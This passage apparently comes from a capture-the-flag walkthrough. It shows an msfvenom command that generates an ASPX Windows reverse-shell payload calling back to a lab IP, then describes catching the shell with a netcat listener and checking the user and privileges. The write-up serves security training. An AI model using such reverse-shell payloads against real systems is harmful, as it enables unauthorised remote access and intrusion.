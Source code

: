 `msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.8.36.26 LPORT=1234 -f aspx -o revshell.aspx`

<figure><img src="../../.gitbook/assets/relevant42.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/relevant43.png" alt=""><figcaption></figcaption></figure>

And now, we can open a netcat listener and load the file we just uploaded:

<figure><img src="../../.gitbook/assets/relevant44.png" alt=""><figcaption></figcaption></figure>

And we got a connection! Let’s see which user are we logged as.

<figure><img src="../../.gitbook/assets/relevant45.png" alt=""><figcaption></figcaption></figure>

And, let’s see what privileges we have:
